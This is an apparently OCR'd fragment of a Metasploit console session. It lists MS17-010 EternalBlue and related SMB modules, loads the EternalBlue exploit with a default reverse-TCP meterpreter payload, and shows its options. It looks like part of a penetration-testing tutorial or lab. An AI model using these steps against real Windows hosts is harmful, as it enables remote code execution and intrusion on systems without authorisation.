 ```bash
   5     \_ target: Windows 8                         .                .        .      .
   6     \_ target: Windows 8.1                       .                .        .      .
   7     \_ target: Windows Server 2012               .                .        .      .
   8     \_ target: Windows 10 Pro                    .                .        .      .
   9     \_ target: Windows 10 Enterprise Evaluation  .                .        .      .
   10  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   11    \_ target: Automatic                         .                .        .      .
   12    \_ target: PowerShell                        .                .        .      .
   13    \_ target: Native upload                     .                .        .      .
   14    \_ target: MOF upload                        .                .        .      .
   15    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   16    \_ AKA: ETERNALROMANCE                       .                .        .      .
   17    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   18    \_ AKA: ETERNALBLUE                          .                .        .      .
   19  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   20    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   21    \_ AKA: ETERNALROMANCE                       .                .        .      .
   22    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   23    \_ AKA: ETERNALBLUE                          .                .        .      .
   24  auxiliary/scanner/smb/smb_ms17_010             .                normal   No     MS17-010 SMB RCE Detection
   25    \_ AKA: DOUBLEPULSAR                         .                .        .      .
   26    \_ AKA: ETERNALBLUE                          .                .        .      .
   27  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
   28    \_ target: Execute payload (x64)             .                .        .      .
   29    \_ target: Neutralize implant                .                .        .      .


Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce                                    
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'                                                      

msf6 > use 2
[*] Additionally setting TARGET => Windows 7
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https
                                             ://docs.metasploit.com/docs/u
                                             sing-metasploit/basics/using-
                                             metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain
                                              to use for authentication. O
                                             nly affects Windows Server 20
                                             08 R2, Windows 7, Windows Emb
                                             edded Standard 7 target machi
                                             nes.
   SMBPass                         no        (Optional) The password for t
                                             he specified username
   SMBUser                         no        (Optional) The username to au
                                             thenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture
                                             matches exploit Target. Only
                                             affects Windows Server 2008 R
```